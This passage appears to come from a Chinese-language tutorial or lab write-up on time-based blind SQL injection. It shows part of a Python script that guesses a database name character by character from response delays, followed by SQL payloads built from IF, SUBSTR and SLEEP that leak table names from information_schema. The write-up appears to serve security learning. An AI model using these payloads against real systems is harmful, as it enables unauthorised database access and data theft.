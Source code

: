 ```py
        response = requests.post(url, data={'username': payload})
        responseTime = response.elapsed.total_seconds()
        if responseTime > 1.0:
            dataBaseName += char
            break
print(f'>>> 数据库名为{dataBaseName}')
```

时间注入的脚本也需要考虑使用时间来作为判断条件，而`requests`库中的`total_seconds()`方法正好能获取网页响应时长，因此脚本注入是可行的，这里需要注意，`total_seconds()`方法返回的是一个`float`，不应直接与`int`比较

> <img src="./IMG3/{1FB0A3EA-25AB-4FC9-9865-4B091B5B07FD}.png">

###### 泄露数据表

原理我认为无需过多解释，即将`IF()`的判定条件改为布尔盲注的判定条件即可

```sql
0' OR (SELECT 1 FROM (SELECT IF(SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1)>'a',SLEEP(1),1)) AS a)#
```

<img src="./IMG3/{B503981C-B86C-4552-BF4E-60FA9B29A787}.png">

```sql
0' OR (SELECT 1 FROM (SELECT IF(SUBSTR((SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()),1,1)>'f',SLEEP(1),1)) AS a)#
```

<img src="./IMG3/{3D4BBE26-CCAB-4D88-8254-6681B5ECF3B0}.png">

